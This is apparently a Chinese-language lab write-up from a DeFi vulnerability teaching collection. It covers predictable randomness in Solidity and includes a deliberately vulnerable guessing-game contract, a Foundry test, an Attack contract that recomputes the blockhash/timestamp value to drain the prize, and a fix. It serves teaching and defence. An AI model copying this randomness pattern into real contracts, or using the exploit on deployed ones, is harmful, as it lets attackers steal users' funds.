 # 随机性 
[Randomness.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Randomness.sol)   
**名称：** 可预测随机性漏洞  
**描述：**  
使用全局变量，如块哈希、块号、区块时间戳等字段是不安全的，矿工和攻击者可以控制它。  



**场景：**  
GuessTheRandomNumber是一款游戏，如果您能猜到从块哈希和时间戳生成的伪随机数，您将赢得1个以太币。  
乍一看，似乎无法猜出正确的数字。  
但让我们看一下获胜有多容易。 
 1. Alice用1个以太币部署GuessTheRandomNumber合约  
 2. Eve部署攻击合约  
 3. EVe调用Attack.attack()赢得了1个以太币



**这会发生什么？**  
攻击者只需复制计算随机数的代码就可以计算出正确答案。


**修复意见：** 
不要使用blockhash和block.timestamp作为随机性的来源。  

**参考：**  
https://solidity-by-example.org/hacks/randomness/

**GuessTheRandomNumber合约：**  
```
contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Randomness.sol-vvvv  
```
// 测试对使用可预测随机性合约攻击的函数
function testRandomness() public {
    // 将地址值从以太坊虚拟机分配给“alice”和“eve”。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice获得1个以太币
    vm.deal(address(alice), 1 ether);

    // 通过Alice的地址调用prank函数
    vm.prank(alice);

    // 创建GuessTheRandomNumberContract的实例，其余额为1个以太币
    GuessTheRandomNumberContract = new GuessTheRandomNumber{value: 1 ether}();

    // Eve的攻击开始
    vm.startPrank(eve);

    // 创建Attack合约的实例
    AttackerContract = new Attack();

    // 记录AttackerContract合约的当前余额
    console.log("Before exploiting, Balance of AttackerContract:", address(AttackerContract).balance);

    // Attack合约试图猜测GuessTheRandomNumberContract的随机数。
    AttackerContract.attack(GuessTheRandomNumberContract);

    // 再次记录AttackerContract合约的余额，显示攻击是否成功。
    console.log("Eve wins 1 Eth, Balance of AttackerContract:", address(AttackerContract).balance);

    // 记录一条消息，表示漏洞攻击已完成。
    console.log("Exploit completed");
}


// 尝试猜测GuessTheRandomNumberContract随机数的Attack合约。
contract Attack {
    // 允许此合约接收以太币的函数
    receive() external payable {}

    // 使用与GuessTheRandomNumberContract相同的逻辑计算伪随机数并使用它来猜测数字的attack函数。
    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        // 使用猜测的答案调用GuessTheRandomNumber合约的guess函数。
        guessTheRandomNumber.guess(answer);
    }

    // 辅助函数，用于检查此合约的余额。
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```  
**红框：** 猜中答案并赢得比赛  
![Alt text](image-13.png)
